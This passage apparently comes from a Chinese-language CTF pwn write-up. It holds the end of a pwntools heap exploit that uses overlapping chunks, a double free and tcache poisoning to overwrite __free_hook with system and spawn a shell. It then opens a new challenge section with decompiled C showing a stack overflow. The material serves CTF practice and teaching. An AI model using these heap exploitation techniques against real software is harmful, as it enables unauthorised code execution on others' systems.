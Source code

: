 ```py

    Update(9,0x20,p64(0)+p64(0x1f1)+p64(fd)+p64(bk))

    Delete(11)#9+10+11 overlapping with 9 10 11
    #double free
    for i in range(8):
        Alloc(0x68)#1 2 [3,8]

    Delete(1)
    Delete(2)

    for i in range(3,4):
        Delete(i)
    for i in range(5,9):
        Delete(i)
    Delete(4)
    libc.address = libc_base
    for i in range(7):
        Alloc(0x68)#1 2 [3,8]

    payload = 'a'*0x70+p64(0)+p64(0x71)+p64(libc.sym['__free_hook']-0x10)
    Update(9,len(payload),payload)
    Alloc(0x68)#8
    Alloc(0x68)#11
    Update(11,0x8,p64(libc.sym['system']))
    Update(8,8,'/bin/sh\x00')
    Delete(8)
    #gdb.attach(p)
    p.interactive()

exp()
```

## 京津冀

### 前言

让我很难受的一场，ret2_dl_resolve手里没有脚本加上很久没做，中间卡住了就不断换题，最后一道没出，菜的有点过分了。

### pwn1

#### 程序逻辑&漏洞利用

第一眼看没什么，看汇编可以发现其实还是溢出了,有点像DDCTF的题，ebp-4的值作为addr，跳转到addr-4的值继续执行。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+4h] [ebp-14h]

  read(0, &gift, 0x14u);
  read(0, &buf, 0x14u);
  return 0;
}
```
